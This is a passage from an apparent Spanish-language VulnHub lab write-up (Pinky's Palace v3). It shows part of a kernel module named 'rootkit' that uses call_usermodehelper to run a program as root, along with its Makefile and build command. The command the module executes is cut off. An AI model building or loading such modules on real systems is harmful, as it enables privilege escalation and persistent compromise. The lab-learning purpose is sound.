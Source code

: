 ```c
    // Entorno mínimo
    static char *envp[] = {
        "HOME=/root",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin",
        NULL
    };

    // 3. Llamar a usermodehelper
    // UMH_WAIT_EXEC = esperamos a que termine la ejecución
    int ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    printk(KERN_INFO "[rootkit] call_usermodehelper: %d\n", ret);

    return 0;
}

static void __exit rootkit_exit(void)
{
    printk(KERN_INFO "[rootkit] Módulo descargado.\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);

```

- Código del Makefile

```makefile
obj-m += rootkit.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

- Compilamos el módulo

```bash
make
```

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-35.png)
